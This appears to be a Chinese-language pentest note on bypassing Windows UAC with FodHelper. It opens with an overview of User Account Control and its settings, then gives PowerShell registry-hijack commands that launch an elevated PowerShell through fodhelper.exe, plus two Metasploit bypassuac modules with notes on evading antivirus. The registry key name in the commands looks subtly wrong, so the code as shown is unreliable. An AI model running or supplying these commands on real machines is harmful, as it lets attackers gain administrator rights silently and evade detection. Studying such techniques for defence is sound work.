 ## FodHelper UAC Bypass

### UAC简介

UAC(User Account Control，用户账号控制)是微软为了提高系统安全性在Windows Vista中引入的技术。UAC要求用户在执行可能影响计算机运行的操作或在进行可能影响其他用户的设置之前，拥有相应的权限或者管理员密码。UAC在操作启动前对用户身份进行验证，以避免恶意软件和间谍软件在未经许可的情况下在计算机上进行安装操作或者对计算机设置进行更改。在Windows Vista及以后的版本中，微软设置了安全控制策略，分为高、中、低三个等级。高等级的进程有管理员权限；中等级的进程有普通用户权限；低等级的进程，权限是有限的，以保证系统在受到安全威胁时造成的损害最小。在权限不够的情况下，访问系统磁盘的根目录、Windows目录，以及读写系统登录数据库等操作，都需要经常UAC(User Account Control，用户账号控制)的认证。

需要UAC的授权才能进行的操作列表如下：

    配置Windows Update
    增加、删除账户
    更改账户类型
    更改UAC的设置
    安装ActiveX
    安装、卸载程序
    安装设备驱动程序
    将文件移动/复制到Program Files或Windows目录下
    查看其它用户的文件夹

UAC有如下四种设置要求：

    始终通知：这是最严格的设置，每当有程序需要使用高级别的权限时都会提示本地用户
    仅在程序试图更改我的计算机时通知我：这是UAC的默认设置。当本地Windows程序要使用高级别的权限时，不会通知用户。但是，当第三方程序要使用高级别的权限时，会提示本地用户
    仅在程序试图更改我的计算机时通知我(不降低桌面的亮度)：与上一条设置的要求相同，但在提示用户时不降低桌面的亮度
    从不提示：当用户为系统管理员时，所有程序都会以最高权限运行
---

### 使用FodHelper进行无文件UAC绕过
refer： https://blog.csdn.net/weixin_34358365/article/details/90365392

```powershell
New-Item -Path HKCU:\Software\Classes\mssettings\shell\open\command -Value powershell.exe –Force
New-ItemProperty -Path HKCU:\Software\Classes\mssettings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```

### 使用msf与meterpreter进行绕过
```
use exploit/windows/local/bypassuac  #该模块运行时会因为在目标机上创建多个文件而被杀毒软件识别，因此通过该模块提权成功率很低。
use exploit/windows/local/bypassuac_injection  #该模块直接运行在内存的反射DLL中，所以不会接触目标机器的硬盘，从而降低了被杀毒软件检测出来的概率。
```

